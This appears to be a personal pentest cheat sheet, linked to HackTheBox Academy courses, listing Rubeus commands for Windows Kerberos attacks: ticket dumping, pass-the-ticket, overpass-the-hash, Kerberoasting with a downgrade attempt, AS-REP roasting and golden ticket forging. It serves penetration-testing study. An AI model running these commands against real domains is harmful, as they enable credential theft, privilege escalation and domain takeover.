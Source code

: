 # Rubeus

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

<div class="row row-cols-lg-2"><div>

[Rubeus](https://github.com/GhostPack/Rubeus) <small>(3.8k ⭐)</small> is a Windows tool to interact with kerberos and manipulate tickets.

```shell!
PS> .\Rubeus.exe dump /nowrap # Dump tickets
```

Request and load a ticket in the current session:

```shell!
PS> # Load the ticket in the current session
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /ptt
```

Pass the hash:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
```
</div><div>

Pass the Key / OverPass the Hash <small>(create a ticket)</small>:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
PS> # Pass the Key / OverPass the Hash == create a ticket
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /aes256:xxx /nowrap
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /nowrap
```

Kerberoasting

```shell!
PS> .\Rubeus.exe kerberoast /stats # number of SPNs, encryption types
PS> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
PS> .\Rubeus.exe kerberoast /user:cn /nowrap # cn encryption settings
PS> .\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap # try a downgrade attack
```

ASReproasting

```shell!
PS> .\Rubeus.exe asreproast /user:cn /nowrap /format:hashcat
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Cannot be compiled on Linux.

```shell!
$ DEST="$HOME/tools/rubeus"
$ git clone -b master https://github.com/GhostPack/Rubeus $DEST
$ # need .NET Framework v4.0 Developer Packs at https://aka.ms/msbuild/developerpacks
```
</div><div>

Golden ticket:

```shell!
PS> .\Rubeus.exe golden /rc4:<krbtgt hash> /domain:dev.example.com /sid:<child domain SID>  /sids:<target domain SID> /user:dummy /ptt
```
</div></div>